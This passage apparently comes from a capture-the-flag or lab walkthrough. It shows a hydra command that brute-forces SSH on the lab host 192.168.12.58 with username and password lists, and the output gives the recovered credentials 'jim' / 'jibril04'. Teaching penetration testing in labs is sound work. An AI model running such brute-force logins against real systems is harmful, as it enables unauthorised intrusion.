

3.1.5 Brute force ssh with hydra
We have created a dictionary for users and passwords with the previously discovered credentials. Let’s bruteforce for ssh login using hydra.
$hydra
-L users -P passwords 192.168.12.58
ssh
Output:

User: “jim”
Password: “jibril04”
Index